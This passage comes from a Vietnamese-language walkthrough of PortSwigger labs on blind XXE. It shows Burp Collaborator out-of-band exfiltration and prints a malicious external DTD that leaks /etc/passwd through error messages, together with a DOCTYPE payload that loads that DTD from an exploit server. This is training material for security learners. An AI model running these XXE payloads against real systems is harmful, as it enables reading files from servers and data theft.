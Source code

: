 
Sau đó chèn vào request và tấn công như hình thức cơ bản, tiếp theo truy cập Burp Collaboration poll data về và chúng ta sẽ có được giá trị của /etc/hostname 

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_malicious_poll.png?raw=true)
Vào check data phần có giao thức HTTP chúng ta thấy được giá trị của file chúng ta cần : 


![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_malicious_submit.png?raw=true)
![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_malicious_solve.png?raw=true)

### Lab: Exploiting blind XXE to retrieve data via error messages
```
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.
```

Bài lab đã mô tả rằng chúng ta phải khai thác vào phần kích hoạt lỗi của website> Một cách tiếp cận khác để khai thác XXE mù là kích hoạt lỗi phân tích cú pháp XML trong đó thông báo lỗi chứa dữ liệu nhạy cảm mà bạn muốn truy xuất. Điều này sẽ có hiệu lực nếu ứng dụng trả về thông báo lỗi kết quả trong phản hồi của nó.



Dựa vào đó chúng ta làm tương tự như bài lab trên, tuy nhiên phần client sẽ là 1 client không tồn tại = > điều này sẽ dẫn đến lỗi được kích hoạt và tin nhắn lỗi trả về cũng giá 
trị file mà mình mong muốn.

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_erromsg_request.png?raw=true)

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;


<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-acfb1fdd1e72c07780708c0d01210056.web-security-academy.net/exploit.dtd"> %xxe;]>
```
![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_erromsg_exploitserver.png?raw=true)

![img](https://github.com/datnlq/Source/blob/main/XXE/image/XXE_erromsg_solve.png?raw=true)

###  Lab: Exploiting XXE to retrieve data by repurposing a local DTD
